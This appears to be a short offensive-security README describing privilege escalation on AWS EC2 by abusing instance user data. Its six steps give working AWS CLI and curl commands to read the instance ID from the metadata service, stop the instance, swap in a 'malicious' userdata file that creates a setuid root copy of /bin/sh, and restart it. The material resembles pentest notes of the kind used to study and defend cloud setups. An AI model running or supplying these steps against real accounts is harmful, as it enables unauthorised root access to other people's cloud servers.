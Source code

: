 # AWS EC2 Userdata Privilege Escalation

## Requirements: Our user/role/policy has permissions to start and stop EC2 instances at will

### We can leverage user data to execute commands in the context of root on Linux at launch. In the example below we've added commands to create a copy of the root-owned binary /bin/sh and add the setuid bit, allowing us to run the binary as root (example). The EC2 instance has to be in a stopped state for us to update the user data.

## Steps

#### 1) Encode our userdata with base64

    base64 userdata.txt > userdata.b64.txt 

#### 2) We'll need to specify the ID of the EC2 instance to modify, and can get this from the metadata service.

    curl http://169.254.169.254/latest/meta-data/instance-id 

#### 3) Stop EC2 Instance

    aws ec2 stop-instances --instance-id INSTANCE_ID 

#### 4) Update the userdata with our malicious file

    aws ec2 modify-instance-attribute --instance-id=INSTANCE_ID --attribute userData --value file://userdata.b64.txt 

#### 5) Start EC2 Instance to load our malicious userdata file

    aws ec2 start-instances --instance-id INSTANCE_ID 

#### 6) Check the private IP address of the target instance. This is optional

    aws ec2 describe-instances --instance-ids INSTANCE_ID --query 'Reservations[*].Instances[*].PrivateIpAddress' --output text 







